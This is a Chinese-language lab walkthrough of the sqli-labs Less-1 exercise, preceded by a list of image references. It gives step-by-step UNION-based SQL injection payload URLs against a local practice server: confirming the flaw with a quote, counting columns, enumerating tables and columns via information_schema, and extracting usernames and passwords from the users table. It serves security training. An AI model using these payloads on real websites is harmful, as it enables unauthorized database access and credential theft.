









## 一、正常访问



页面提示需要传入一个 `id` 参数：

```text
http://192.168.1.17:8082/Less-1/?id=1
```



接着尝试在参数后面添加单引号，判断是否存在注入点：

```text
http://192.168.1.17:8082/Less-1/?id=1'
```



页面返回 SQL 报错，说明传入的单引号参与了后端 SQL 语句拼接。


后续可以使用 `--+` 注释掉后面的 SQL 语句，从而消除多余内容导致的语法错误。

## 二、判断查询字段数

使用 `order by` 逐步判断当前查询语句的字段数：

```text
http://192.168.1.17:8082/Less-1/?id=1' order by 1 --+
http://192.168.1.17:8082/Less-1/?id=1' order by 2 --+
http://192.168.1.17:8082/Less-1/?id=1' order by 3 --+
http://192.168.1.17:8082/Less-1/?id=1' order by 4 --+
```

当 `order by 4` 页面报错时，说明当前查询语句只有 3 个字段。



确认字段数后，再使用 `union select` 判断页面的回显位置：

```text
http://192.168.1.17:8082/Less-1/?id=1' and 1=2 union select 1,2,3 --+
```



从页面结果可以看到，第 2 列和第 3 列会回显到页面上。

## 三、查询数据库信息

先使用 MySQL 自带的 `database()` 函数查询当前数据库名：

```text
http://192.168.1.17:8082/Less-1/?id=1' and 1=2 union select 1,2,database() --+
```



再通过 `information_schema.tables` 查询 `security` 数据库中的表名：

```text
http://192.168.1.17:8082/Less-1/?id=1' and 1=2 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```

这里使用 `group_concat()` 将多个表名合并到同一列中，方便在页面回显位置查看。



接下来以 `users` 表为例，查询该表中的字段名：

```text
http://192.168.1.17:8082/Less-1/?id=1' and 1=2 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```



可以看到，`users` 表中有 3 个字段，分别是 `id`、`username`、`password`。

最后根据字段名查询表中的数据：

```text
http://192.168.1.17:8082/Less-1/?id=1' and 1=2 union select 1,2,group_concat(username,':',password) from users --+
```



通过页面回显，可以获取 `users` 表中的用户名和密码数据。
